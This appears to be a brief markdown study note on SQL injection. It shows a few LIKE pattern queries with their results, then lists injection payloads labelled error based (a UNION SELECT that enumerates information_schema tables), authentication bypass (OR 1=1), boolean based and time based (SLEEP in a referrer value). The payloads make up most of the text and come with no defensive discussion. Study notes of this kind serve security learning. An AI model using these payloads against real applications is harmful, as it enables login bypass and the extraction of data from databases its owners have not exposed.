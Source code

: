 ### SQL 
```
select * from users where username like 'a%';
```
Result: admin

```
select * from users where username like '%n';
```
Result: admin, jon, martin

```
select * from users where username like '%mi%';
```
Result:admin

### Error Based

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database()'
```

#### Authentication Bypass
```
select * from users where username='' and password='' OR 1=1;
```

#### Boolean Based
```
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

#### Time Based
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```